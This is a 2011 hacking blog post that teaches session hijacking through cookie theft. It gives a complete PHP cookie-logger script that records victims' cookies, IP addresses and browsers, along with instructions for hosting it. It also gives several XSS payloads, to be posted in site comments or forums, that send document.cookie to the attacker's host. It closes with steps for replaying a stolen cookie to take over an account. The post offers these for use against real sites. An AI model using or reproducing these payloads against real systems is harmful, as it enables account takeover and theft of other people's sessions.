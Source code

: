 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Session hijacking or cookie stealing using php and javascript
slug: session-hijacking-or-cookie-stealing-using-php-and-javascript
# menu: Session hijacking or cookie stealing using php and javascript
date: 13-01-2011
published: true
publish_date: 13-01-2011
# unpublish_date: 13-01-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - cookies
        - hack
        - hacking
        - internet
        - passwords
        - website
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [cookies,hack,hacking,internet,passwords,website]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


In computer science, session hijacking refers to the exploitation of a valid computer session—sometimes also called a session key—to gain unauthorized access to information or services in a computer system. In particular, it is used to refer to the theft of a magic cookie used to authenticate a user to a remote server. It has particular relevance to web developers, as the HTTP cookies used to maintain a session on many web sites can be easily stolen by an attacker using an intermediary computer or with access to the saved cookies on the victim’s computer (see HTTP cookie theft).  
  
Here we show how you can hack a session using javascript and php.

What is a cookie?

A cookie known as a web cookie or http cookie is a small piece of text stored by the user browser.A cookie is sent as an header by the web server to the web browser on the client side.A cookie is static and is sent back by the browser unchanged everytime it accesses the server.  
A cookie has a expiration time that is set by the server and are deleted automatically after the expiration time.  
Cookie is used to maintain users authentication and to implement shopping cart during his navigation,possibly across multiple visits.

What can we do after stealing cookie?

Well,as we know web sites authenticate their user’s with a cookie,it can be used to hijack the victims session.The victims stolen cookie can be replaced with our cookie to hijack his session.

This is a cookie stealing script that steals the cookies of a user and store them in a text file, these cookied can later be utilised.

PHP Code:  
<?php

function GetIP()  
{  
if (getenv(“HTTP\_CLIENT\_IP”) && strcasecmp(getenv(“HTTP\_CLIENT\_IP”), “unknown”))  
$ip = getenv(“HTTP\_CLIENT\_IP”);  
else if (getenv(“HTTP\_X\_FORWARDED\_FOR”) && strcasecmp(getenv(“HTTP\_X\_FORWARDED\_FOR”), “unknown”))  
$ip = getenv(“HTTP\_X\_FORWARDED\_FOR”);  
else if (getenv(“REMOTE\_ADDR”) && strcasecmp(getenv(“REMOTE\_ADDR”), “unknown”))  
$ip = getenv(“REMOTE\_ADDR”);  
else if (isset($\_SERVER[‘REMOTE\_ADDR’]) && $\_SERVER[‘REMOTE\_ADDR’] && strcasecmp($\_SERVER[‘REMOTE\_ADDR’], “unknown”))  
$ip = $\_SERVER[‘REMOTE\_ADDR’];  
else  
$ip = “unknown”;  
return($ip);  
}

function logData()  
{  
$ipLog=”log.txt”;  
$cookie = $\_SERVER[‘QUERY\_STRING’];  
$register\_globals = (bool) ini\_get(‘register\_gobals’);  
if ($register\_globals) $ip = getenv(‘REMOTE\_ADDR’);  
else $ip = GetIP();

$rem\_port = $\_SERVER[‘REMOTE\_PORT’];  
$user\_agent = $\_SERVER[‘HTTP\_USER\_AGENT’];  
$rqst\_method = $\_SERVER[‘METHOD’];  
$rem\_host = $\_SERVER[‘REMOTE\_HOST’];  
$referer = $\_SERVER[‘HTTP\_REFERER’];  
$date=date (“l dS of F Y h:i:s A”);  
$log=fopen(“$ipLog”, “a+”);

if (preg\_match(“/bhtmb/i”, $ipLog) || preg\_match(“/bhtmlb/i”, $ipLog))  
fputs($log, “IP: $ip | PORT: $rem\_port | HOST: $rem\_host | Agent: $user\_agent | METHOD: $rqst\_method | REF: $referer | DATE{ : } $date | COOKIE: $cookie  
“);  
else  
fputs($log, “IP: $ip | PORT: $rem\_port | HOST: $rem\_host | Agent: $user\_agent | METHOD: $rqst\_method | REF: $referer | DATE: $date | COOKIE: $cookie nn”);  
fclose($log);  
}

logData();

?>

Save the script as a cookielogger.php on your server.  
(You can get any free webhosting easily such as justfree,x10hosting etc..)

Create an empty text file log.txt in the same directory on the webserver. The hijacked/hacked cookies will be automatically stored here.

Now for the hack to work we have to inject this piece of javascript into the target’s page. This can be done by adding a link in the comments page which allows users to add hyperlinks etc. But beware some sites dont allow javascript so you gotta be lucky to try this.

The best way is to look for user interactive sites which contain comments or forums.

Post the following code which invokes or activates the cookielogger on your host.

Code:  
<script language=”Java script”>  
document.location=”http://www.yourhost.com/cookielogger.php?cookie=" + document.cookie;  
</script>

Your can also trick the victim into clicking a link that activates javascript.  
Below is the code which has to be posted.

Code:  
<a href=”java script:document.location=’http://www.yourhost.com/cookielogger.php?cookie=’+document.cookie;”>Click here!</a>

Clicking an image also can activate the script.For this purpose you can use the below code.

Code:  
<a href=”java script:document.location=’http://www.yourhost.com/cookielogger.php?cookie=’+document.cookie;”>

<img src=”URL OF THE IMAGE”/></a>

All the details like cookie,ipaddress,browser of the victim are logged in to log.txt on your hostserver

In the above codes please remove the space in between javascript.

Hijacking the Session:

Now we have cookie,what to do with this..?  
Download cookie editor mozilla plugin or you may find other plugins as well.

Go to the target site–>open cookie editor–>Replace the cookie with the stolen cookie of the victim and refresh the page.Thats it!!!you should now be in his account. Download cookie editor mozilla plugin from here : https://addons.mozilla.org/en-US/firefox/addon/573

Don’t forget to comment if you like my post.   
by [hackiteasy](http://www.hackiteasy.com/)

Go to our new site- shankee.com
